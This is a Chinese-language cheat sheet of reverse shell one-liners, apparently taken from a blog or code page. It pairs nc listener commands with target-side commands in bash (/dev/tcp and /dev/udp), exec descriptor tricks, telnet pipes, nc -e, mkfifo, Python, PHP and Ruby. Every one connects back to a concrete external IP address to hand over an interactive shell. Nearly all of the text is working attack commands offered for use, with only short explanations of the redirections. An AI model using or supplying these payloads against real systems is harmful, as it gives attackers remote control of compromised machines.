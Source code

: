 Bash反弹

方法一

监听的vps使用命令：
Default
nc -nlvp 7777

被控机器使用命令：
Default
命令1：bash -i >& /dev/tcp/103.234.72.5/7777 0>&1
命令2：bash -c 'exec bash -i &>/dev/tcp/103.234.72.5/7777 <&1'

    #bash ‐i 打开一个交互的bash
    # >& 将标准错误输出重定向到标准输出
    #/dev/tcp/x.x.x.x/port 意为调用socket,建立socket连接,其中x.x.x.x为 要反弹到的主机ip，port为端口
    # 0>&1 标准输入重定向到标准输出，实现你与反弹出来的shell的交互

方法二

 在使用这个进行shell反弹时，不能使用python获取一个标准的shell，需要使用 nc再次反弹之后，使用python获取标准化输出。
Default
nc -nlvp 7777

被控机器使用命令：
Default
exec 5<>/dev/tcp/103.234.72.5/7777;cat <&5 | while read line; do $line 2>&5 >&5; done

方法三
Default
exec 0&0 2>&0 0<&196;exec 196<>/dev/tcp/103.234.72.5/7777; sh <&196 >&196 2>&196
 
 
/bin/bash -i > /dev/tcp/103.234.72.5/6666 0<&1 2>&1

方法四
Default
0<&196;exec 196<>/dev/tcp/103.234.72.5/7777; sh <&196 >&196 2>&196

bash UDP 反弹
Default
nc -u -nlvp 7777
sh -i >& /dev/udp/103.234.72.5/7777 0>&1

telnet反弹

方法一
Default
nc -nlvp 6666
nc -nlvp 7777
telnet 103.234.72.5 6666 | /bin/bash | telnet 103.234.72.5 7777
6666输入命令7777输出结果

方法二
Default
mknod a p; telnet 103.234.72.5 7777 0<a | /bin/bash 1>a(不好用)

nc反弹
Default
nc ‐e /bin/bash 103.234.72.5 7777

如果目标主机linux发行版本没有 -e 参数，还有以下方式：
Default
rm /tmp/f ; mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 103.234.72.5 7777 >/tmp/f

exec 反弹
Default
0&lt;&amp;196;exec 196&lt;&gt;/dev/tcp/103.234.72.5/7777; sh &lt;&amp;196 &gt;&amp;196 2&gt;&amp;196

python反弹
Default
export RHOST="103.234.72.5";export RPORT=7777;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

PHP反弹
Default
php -r '$sock=fsockopen("103.234.72.5",7777);exec("/bin/sh -i <&3 >&3 2>&3");'

ruby 反弹
Default
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("103.234.72.5","7777");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
